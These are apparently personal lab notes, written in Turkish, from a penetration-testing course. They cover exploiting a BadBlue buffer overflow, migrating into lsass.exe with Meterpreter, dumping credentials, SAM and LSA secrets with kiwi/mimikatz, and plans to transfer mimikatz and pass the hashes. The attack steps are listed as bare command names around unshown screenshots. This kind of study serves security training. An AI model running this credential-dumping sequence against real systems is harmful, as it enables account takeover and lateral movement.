 ## badblue
![[Pasted image 20240311121827.png]]
#badblue 
### bufferoverflow'a zaafiyeti var bu server'ın
![[Pasted image 20240311121930.png]]

## pgrep lsass
### migrate -N lsass.exe
![[Pasted image 20240311122134.png]]

## load kiwi
![[Pasted image 20240311122236.png]]

## help
![[Pasted image 20240311122350.png]]

## creds_all
![[Pasted image 20240311122511.png]]

### lsa_dump_sam
![[Pasted image 20240311122624.png]]

## lsa_dump_secrets
![[Pasted image 20240311122732.png]]

## BURADA BULDUĞUMUZ HASH'LERIN HEPSINI "PASS THE HASH ATTACK" SALDIRISINDA KULLANACAGIZ

---
## HEDEFE MİMİKAZT GONDERME
![[Pasted image 20240311123056.png]]
### Bizim kali içinde usr/share klasöründe windows-resources klasörü içinde mimikatz var  .

## Bunu meterpreter upload ile de gönderebiliriz. python http server ile de gonderebiliriz. veya CERUTIL
